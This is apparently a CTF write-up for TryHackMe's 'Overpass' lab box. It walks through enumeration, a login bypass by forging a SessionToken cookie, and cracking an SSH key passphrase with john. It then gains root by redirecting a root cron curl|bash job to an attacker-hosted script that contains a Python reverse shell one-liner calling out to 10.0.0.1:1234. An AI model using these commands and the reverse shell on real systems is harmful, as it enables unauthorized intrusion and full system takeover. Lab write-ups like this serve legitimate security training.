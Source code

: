 # 'Overpass' box writeup
## Overpass is a CTF box written by NinjaJc01 and available on the [TryHackMe](https://tryhackme.com/) platform.
## Read about [Broken Authentication](https://www.youtube.com/watch?v=mruO75ONWy8), [OWASP A2](https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A2-Broken_Authentication)
# ![bg](images/background.png?raw=true "Title")

## Foothold
+ **Let's start with a nmap scan for ports**

``nmap -sV -sC -oN scan1 10.10.107.5``

+ **We can clearly see 2 ports open, ssh and a http, configured on default ports**

# ![1](images/nmap_scan_ov(1).jpg?raw=true "nmap_scan")

+ **Visiting the http web-site, we are welcomed by a page which contains info about a specific password-manager app built by some developers. We also see a download link button**

# ![2](images/visited.jpg?raw=true "visit")

**Accessing the download page, we can look through the Source code of the password-manager app. It looks like it's written in go language which encrypt passwords with the ROT47 algorithm**

+ **Let's do a gobuster scan of the web site**

``gobuster dir -u http://10.10.107.5/ -w /usr/share/wordlists/dirb/big.txt``

# ![3](images/admin.jpg?raw=true "admin")

+ **We can spot an admin page and accessing it, we can see an administrator login area. I tried, unsuccessfully, a SQL injection and then moved on the 2nd OWASP vuln. Let's look into the source code of the page and into some js code**

# ![4](images/scripts.jpg?raw=true "scripts")

**We can clearly see a login.js script so let's look into the source code. The login function seems to be a way to go**

```js
async function login() {
    const usernameBox = document.querySelector("#username");
    const passwordBox = document.querySelector("#password");
    const loginStatus = document.querySelector("#loginStatus");
    loginStatus.textContent = ""
    const creds = { username: usernameBox.value, password: passwordBox.value }
    const response = await postData("/api/login", creds)
    const statusOrCookie = await response.text()
    if (statusOrCookie === "Incorrect credentials") {
        loginStatus.textContent = "Incorrect Credentials"
        passwordBox.value=""
    } else {
        Cookies.set("SessionToken",statusOrCookie)
        window.location = "/admin"
    }
```

+ **The credentials of the login page are sent to a endpoint inside some DB of the box and a session token is used. It seems like the session token is set with the statusOrCookie parameter. If we change the SessionToken value, maybe we can bypass the login. Let's create the cookie with the name of *SessionToken* and any value you want inside it**

# ![5](images/session.jpg?raw=true "sess")

## User escalation

**Now, trying to refresh the page we can observe we bypassed the login auth and a RSA private key of some guy named James is on our screen. Let's save it in some txt file and use it to connect to ssh**

# ![6](images/RSA.jpg?raw=true "rsa")

``chmod 600 id_rsa``

``ssh -i id_rsa james@10.10.107.5``

+ **Trying to connect to ssh, a key is required for our file. Let's use ssh2john to bruteforce our way in: i'm gonna use ssh2john to get our first hash then crack it with john using the rockyou.txt wordlist**

``python ssh2john.py id_rsa > key_hash``

``sudo john key_hash -wordlist=/usr/share/wordlists/rockyou.txt``

# ![7](images/johned.jpg?raw=true "johnny")

**Using our password for the ssh we are in! There's two files into user's home directory: one of them is our user's flag and the other seems to be an update of their encryption app**

# ![8](images/userflag(1).jpg?raw=true "userfl")

## Root escalation

+ **According the message inside the todo.txt file, we can see that james is using the same app to encrypt his password. Listing the hidden files inside his directory we can see another file named** *.overpass* **It seems to be james password so we're gonna use it, but first don't forget to decrypt it, because it's encrypted with ROT47, as they said in the beginning page**

**Running sudo -l command, we cannot se any allowed cmds for james user**

# ![9](images/noturn.jpg?raw=true "noturn")

+ **Let's continue and look into the /etc/crontab file**

``cat /etc/crontab``

# ![10](images/croned.jpg?raw=true "crontab")

+ **We can see a curl command, executed by root, which runs every second and transfer the data from the *buildscript.sh*, the building script for their encrypting app, into terminal, then executed by bash. This script is taken from the machine local web-site, and the domain used is overpass.thm. If we look into the /etc/hosts file we can see the overpass.thm dns belongs to the local ip of the machine**

# ![11](images/hostsetc.png?raw=true "hostsetc")

+ **What if we can run our own script on this machine? If we modify the overpass.thm domain into our local machine domain, we can host locally a python server and upload maybe a python script which get us a reverse shell. The respective script is executed by root so we're gonna get a root shell**

# ![12](images/modfiy.jpg?raw=true "modify")

**Next step is to create a similar path with the /etc/crontab curl get request from the host - */downloads/src/buildscript.sh*. Let's do this into our local machine and we're gonna host the server into our home directory**

``mkdir downloads``

``mkdir src``

**Now, let's create the *buildscript.sh***

``python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'``

# ![13](images/pythoned.jpg?raw=true "pyth")

+ **The last step is to start our server from the home directory (on the 80 port) and then start a listener with nc**

``sudo python -m SimpleHTTPServer 80``

``nc -lvnp 1234``

# ![14](images/root_flagos.jpg?raw=true "flagos")

**And we are root! It was a nice box with a very important vulnerability based on the Broken Authentication and some exploiting crontab service. All thanks goes to the creator, NinjaJc01!**







